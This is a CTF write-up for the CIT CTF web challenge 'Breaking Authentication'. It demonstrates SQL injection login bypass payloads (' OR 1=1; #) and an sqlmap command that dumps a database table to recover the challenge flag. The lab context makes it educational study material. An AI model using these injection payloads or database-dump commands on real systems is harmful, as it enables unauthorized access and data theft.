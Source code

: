 ```yaml
---
title: "Breaking Authentication"
date: 2025-04-27 14:30:00 +02:00
categories: [Writeup, CTF, Web]
tags: [CIT-CTF, security, web]
---
```

# Writeup - CIT CTF Challenge: Breaking Authentication

## 📋 Challenge Information
- **Name**: Breaking Authentication
- **Category**: Web
- **Description**: "Say my username."

---

## 🛠️ Solution

After visiting the site, I saw a standard login form.  
I decided to test for SQL Injection vulnerability.

I tried entering the following in the **username** field:
```plaintext
' OR 1=1; --
```
and any password.

![Screen logowania](/assets/img/CIT_CTF/login.png "Login screen")

I got an error about the syntax not being correct.
```plaintext
Fatal error: Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '--' AND password='1'' at line 1 in /var/www/html/index.php:23 Stack trace: #0 /var/www/html/index.php(23): mysqli->query('SELECT * FROM u...') #1 {main} thrown in /var/www/html/index.php on line 23
```
I found out that there is a MariaDB database on the server where the comment character is '#' and not '--'.

 tried again with the correction taken into account
```plaintext
' OR 1=1; #
```
![Screen Admin](/assets/img/CIT_CTF/admin.png "Admin Panel")

I managed to log in to the admin panel, but it turned out to be a dead-end road.

The description of chelleng indicates that it is about finding the name of the user for this purpose I used the **sqlmap** tool.

At first using sqlmap I learned that the name of the database is **app**, and then that there are two tables, **users** and **secrets** in it, so at first I dumped the content of secrets table.

```bash
sqlmap -u "http://23.179.17.40:58001/" --forms -D app -T secrets --dump   
```
And there the flag was located

```plaintext
Database: app
Table: secrets
[1 entry]
+--------+-----------------------+
| name   | value                 |
+--------+-----------------------+
| flag   | CIT{36b0efd6c2ec7132} |
+--------+-----------------------+  
```

---

## 🎴 Flag

```plaintext
CIT{36b0efd6c2ec7132}
```
---